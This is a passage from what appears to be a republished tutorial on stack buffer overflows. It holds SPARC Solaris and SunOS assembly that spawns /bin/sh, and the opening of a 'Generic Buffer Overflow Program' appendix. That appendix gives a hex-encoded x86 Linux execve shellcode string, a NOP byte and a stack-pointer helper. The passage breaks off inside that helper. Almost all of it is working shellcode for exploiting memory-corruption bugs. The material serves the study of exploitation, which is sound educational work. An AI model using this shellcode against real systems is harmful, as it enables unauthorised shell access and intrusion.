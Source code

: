 ------------------------------------------------------------------------------

```
SPARC/Solaris
------------------------------------------------------------------------------
        sethi   0xbd89a, %l6
        or      %l6, 0x16e, %l6
        sethi   0xbdcda, %l7
        and     %sp, %sp, %o0
        add     %sp, 8, %o1
        xor     %o2, %o2, %o2
        add     %sp, 16, %sp
        std     %l6, [%sp - 16]
        st      %sp, [%sp - 8]
        st      %g0, [%sp - 4]
        mov     0x3b, %g1
        ta      8
        xor     %o7, %o7, %o0
        mov     1, %g1
        ta      8
------------------------------------------------------------------------------
```

```
SPARC/SunOS
------------------------------------------------------------------------------
        sethi   0xbd89a, %l6
        or      %l6, 0x16e, %l6
        sethi   0xbdcda, %l7
        and     %sp, %sp, %o0
        add     %sp, 8, %o1
        xor     %o2, %o2, %o2
        add     %sp, 16, %sp
        std     %l6, [%sp - 16]
        st      %sp, [%sp - 8]
        st      %g0, [%sp - 4]
        mov     0x3b, %g1
	mov	-0x1, %l5
        ta      %l5 + 1
        xor     %o7, %o7, %o0
        mov     1, %g1
        ta      %l5 + 1
------------------------------------------------------------------------------
```

---

Appendix B
===

Generic Buffer Overflow Program
---

{% highlight C %}
shellcode.h
------------------------------------------------------------------------------
#if defined(__i386__) && defined(__linux__)

#define NOP_SIZE	1
char nop[] = "\x90";
char shellcode[] =
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) {
   __asm__("movl %esp,%eax");